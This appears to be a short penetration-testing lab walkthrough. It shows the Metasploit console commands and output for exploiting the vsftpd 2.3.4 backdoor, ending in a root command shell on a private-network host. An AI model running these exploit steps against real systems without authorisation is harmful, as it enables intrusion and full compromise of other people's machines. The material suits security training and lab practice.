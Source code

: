 <pre>21/tcp   open  ftp         vsftpd 2.3.4</pre>
## vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)

<pre>msf6 > search vsftpd 2.3.4 

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor</pre>

<pre>msf6 > use 0</pre>

<pre>msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options</pre>

<pre>Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic</pre>


<pre>msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts A.B.C.D</pre>

<pre>msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit</pre>

## Exploit Completed
<pre>[*] 192.168.161.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.161.131:21 - USER: 331 Please specify the password.
[+] 192.168.161.131:21 - Backdoor service has been spawned, handling...
[+] 192.168.161.131:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.161.128:34389 -> 192.168.161.131:6200) at 2025-02-04 14:25:00 +0530


id
uid=0(root) gid=0(root)</pre>


